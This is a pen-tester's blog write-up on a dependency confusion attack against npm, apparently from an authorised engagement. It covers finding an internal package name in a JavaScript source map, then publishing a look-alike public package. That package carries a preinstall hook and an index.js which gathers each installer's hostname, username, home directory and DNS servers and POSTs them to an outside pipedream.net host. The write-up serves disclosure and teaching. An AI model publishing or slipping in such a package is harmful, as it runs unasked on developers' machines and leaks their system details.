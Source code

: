 ```yaml
---
title: "Dependency Confusion Attack: A Route to RCE"
date: 2023-08-31 12:00:00 +0900
categories: [web]
tags: [web, rce]
comments: false
---
```



Hello, amazing hackers! Today, I'm explaining one of my recent findings: the dependency confusion attack and how it can lead to remote code execution. This vulnerability was discovered during a private pen-test engagement.

---

### What is Dependency Confusion?

* A Dependency Confusion attack or supply chain substitution attack occurs when a software installer script is tricked into pulling a malicious code file from a public repository (e.g. NPM, PIP, RUBYGEMS, MVN etc.) instead of the intended file of the same name from an internal repository. The attacker can upload a package with a higher version number to the public repository.

* In this writeup, we are focusing on the **NPM** package dependency. The Dependency confusion vulnerability was discovered by [Alex Brisan](https://twitter.com/alxbrsn) and it is explained very in-depth in his [writeup](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610).

### Discovery

* The primary use case of the application was to analyze financial data submitted by users. During recon, I always prefer to manually review JavaScript files. While going through the HTTP requests related to JS files in Burp Suite, I observed an **app.randomnumbers.js.map** (source map) file.

* Generally, source map files are used for debugging purposes by developers. It is mapping between minified JS files and their original source JS files. I started reviewing the JS source map file and discovered some Node.js packages by searching for keywords such as `import`, `require`, and `node_modules`.

```javascript
//app.randomnumber.js.map
import {
    NameSpaces
}
from '../constants/namespaces';
import store from '../redux-store/store';
const { Trackevaluator } = require('ORGNAME-trackevaluator'); // Here ORGNAME indicates company name
const Context = require('./context').Context;
const ReferralContext = require('./referral.context').ReferralContext;
const evaluate = new Trackevaluator();
const camelize = (obj) => _.transform(obj, (acc, value, key, target) => {
    const camelKey = _.isArray(target) ? key : _.camelCase(key);
     acc[camelKey] = _.isObject(value) ? camelize(value) : value;
});
```
* During the analysis of the file, a package named `ORGNAME-trackevaluator` was found, as shown in the code snippet above. While searching this package on the [npmjs.com](https://www.npmjs.com/) gave 0 results, indicating a potential vulnerability to a dependency confusion attack.

![nopackagenpm](/assets/img/NPM2.png)
_package not found_

> NPM packages can also be found in the **package.json** and **package-lock.json** files. 
{: .prompt-tip }
* Instead of manually checking each package, we can use the tool called [confused](https://github.com/visma-prodsec/confused) to identify packages that are not hosted on public repositories.


### Exploitation

1. Create a package using `npm init` command. Make sure to provide higher version number during creation process of the package. 
2. In the **package.json** file, add the command `"preinstall" : "node index.js"` under `"scripts"` parameter as shown in below snippet.

    ![package.json_codesnippet](/assets/img/NPM1.png)
    _package.json file_

3. Create **index.js** file with mentioned below code. Make sure to change the hostname with your burpcollaborator or pipedream domain in the code.

```javascript
//index.js
//author:- whitehacker003@protonmail.com
const os = require("os");
const dns = require("dns");
const querystring = require("querystring");
const https = require("https");
const packageJSON = require("./package.json");
const package = packageJSON.name;

const trackingData = JSON.stringify({
    p: package,
    c: __dirname,
    hd: os.homedir(),
    hn: os.hostname(),
    un: os.userInfo().username,
    dns: dns.getServers(),
    r: packageJSON ? packageJSON.___resolved : undefined,
    v: packageJSON.version,
    pjson: packageJSON,
});

var postData = querystring.stringify({
    msg: trackingData,
});

var options = {
    hostname: "eoty85f2nvs15dudw.m.pipedream.net", //replace burpcollaborator.net with Interactsh or pipedream
    port: 443,
    path: "/",
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        "Content-Length": postData.length,
    },
};

var req = https.request(options, (res) => {
    res.on("data", (d) => {
        process.stdout.write(d);
    });    
});

req.on("error", (e) => {
    // console.error(e);
});

req.write(postData);
req.end();
```

{:start="4"}
4. Publish the package using `npm publish` command. Verify the published package on the npm public repository.

    ![npm1](/assets/img/NPM3.png)
    _package is hosted on the npm website_

5. The preinstall script will execute `node index.js` command. Once package is installed on the system.

* After sometime of uploading the package, I received pingbacks containing the **hostname**, **directory**, **IP address**, and **username** from many systems on my server. This was fixed quickly by the developers, once it was reported.

![npmpingback](/assets/img/NPM4.png)
_remote code execution_


### Impact

* A Dependency Confusion attack, whether opportunistic or targeted, can result in widespread infections among a vendor's customers. This can empower attackers to execute unauthorized access, steal data, deploy ransomware which disrupt operations.

### References

* [Dependency Confusion: How I Hacked Into Apple, Microsoft and Dozens of Other Companies](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610)

* [Dependency Confusion](https://dhiyaneshgeek.github.io/web/security/2021/09/04/dependency-confusion/)

* [Dependency Confusion Attack – What, Why, and How?](https://redhuntlabs.com/blog/dependency-confusion-attack-what-why-and-how/)


